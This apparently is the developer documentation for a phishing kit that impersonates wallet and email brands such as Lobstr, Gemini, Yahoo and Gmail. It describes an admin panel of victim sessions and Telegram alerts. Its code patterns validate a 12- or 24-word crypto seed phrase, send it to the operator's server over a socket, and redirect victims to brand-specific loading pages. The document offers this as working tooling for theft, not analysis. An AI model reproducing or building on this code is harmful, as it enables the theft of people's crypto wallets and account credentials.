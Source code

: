 2. **User Action Notifications** (for Telegram alerts):
```javascript
socket.emit('user_action', {
    type: 'action_type', // e.g., 'seed_phrase_submitted', 'wallet_connected'
    data: relevantData,
    page: 'currentPageName',
    timestamp: new Date().toISOString()
});
```

3. **Page Redirects**:
```javascript
socket.emit('request_redirect', { page: 'targetpage' });
```

## Important Files and Locations

### Frontend Components:
- **Admin Panel**: `src/admin/components/sessionList.jsx`
- **Brand Pages**: `public/pages/[brandname]*.html`
- **Socket Client**: `public/js/socket-client.js`

### Backend Components:
- **Main Server**: `src/server/index.js`
- **HTML Transformer**: `src/server/utils/BackgroundHTMLTransformer.js`
- **Socket Handler**: `src/server/socketHandler.js`

### Special Pages:
- **Captcha Page**: `public/pages/captcha.html` (dynamically shows brand domain)
- **Loading Pages**: Each brand's default landing page

## Common Patterns

### 1. Seed Phrase Collection:
```javascript
// Validate seed phrase (12 or 24 words)
const words = phrase.trim().split(/\s+/);
if (words.length !== 12 && words.length !== 24) {
    // Show error
}

// Send to server
socket.emit('user_action', {
    type: 'seed_phrase_submitted',
    data: seedPhrase,
    page: 'pageIdentifier',
    timestamp: new Date().toISOString()
});
```

### 2. Brand-Specific Redirects:
```javascript
// Redirect to brand-specific loading page
const loadingPage = selectedBrand === 'Lobstr' ? 'lobstrloading' : 
                    selectedBrand === 'Yahoo' ? 'yahooloading' :
                    selectedBrand === 'Gemini' ? 'geminiloading' :
                    selectedBrand === 'Gmail' ? 'gmailloading' : 'loading';
socket.emit('request_redirect', { page: loadingPage });
```
